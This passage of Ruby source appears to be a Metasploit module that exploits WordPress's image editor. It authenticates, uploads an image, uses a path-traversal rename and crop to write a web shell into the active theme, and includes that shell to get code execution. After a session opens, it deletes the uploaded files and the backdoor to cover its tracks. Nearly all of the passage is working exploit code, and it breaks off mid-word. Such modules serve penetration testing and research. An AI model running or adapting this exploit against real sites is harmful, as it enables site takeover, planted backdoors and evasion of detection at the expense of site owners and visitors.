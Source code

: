           if res && res.code == 200 && res.body && !res.body.empty?
            nonce = res.body.scan(/post=#{post_id}&action=delete&_wpnonce=(\w+)/).flatten.first
            fail_with(Failure::NotFound, 'Unable to retrieve nonce') unless nonce

            send_request_cgi(
              'method'    => 'GET',
              'uri'       => uri2,
              'cookie'    => cookie,
              'vars_get'  => {
                'post'     => post_id,
                'action'   => 'delete',
                '_wpnonce' => nonce
              }
            )
          end
        end
      end

      def exploit
        fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?

        print_status("Authenticating with WordPress using #{username}:#{password}...")
        cookie = wordpress_login(username, password)
        fail_with(Failure::NoAccess, 'Failed to authenticate with WordPress') if cookie.nil?
        print_good("Authenticated with WordPress")
        store_valid_credential(user: username, private: password, proof: cookie)

        print_status("Preparing payload...")
        @current_theme = get_current_theme
        wp_nonce = get_wpnonce(cookie)
        @current_date = Time.now.strftime("%Y/%m/")

        img_name = Rex::Text.rand_text_alpha(10)
        @filename1, image_id, update_nonce = upload_file(img_name, wp_nonce, cookie)
        ajax_nonce = get_ajaxnonce(cookie)

        @filename1 = image_editor(img_name, ajax_nonce, image_id, cookie)
        wpnonce2 = get_wpnonce2(image_id, cookie)

        change_path(wpnonce2, image_id, @filename1, @current_date, '?/x', cookie)
        crop_image(image_id, ajax_nonce, cookie)

        @shell_name = Rex::Text.rand_text_alpha(10)
        change_path(wpnonce2, image_id, @filename1, @current_date, "?/../../../../themes/#{@current_theme}/#{@shell_name}", cookie)
        crop_image(image_id, ajax_nonce, cookie)

        print_status("Including into theme")
        post_id = include_theme(@shell_name, cookie)

        check_for_base64(cookie, post_id)
        wp_cleanup(@shell_name, post_id, cookie)
      end

      def on_new_session(client)
        client.shell_command_token("rm wp-content/uploads/#{@current_date}#{@filename1[0...10]}*")
        client.shell_command_token("rm wp-content/uploads/#{@current_date}cropped-#{@filename1[0...10]}*")
        client.shell_command_token("rm -r wp-content/uploads/#{@current_date}#{@filename1[0...10]}*")
        client.shell_command_token("rm wp-content/themes/#{@current_theme}/cropped-#{@shell_name}.jpg")
        client.shell_command_token("rm #{@backdoor}.php")
      end
    en
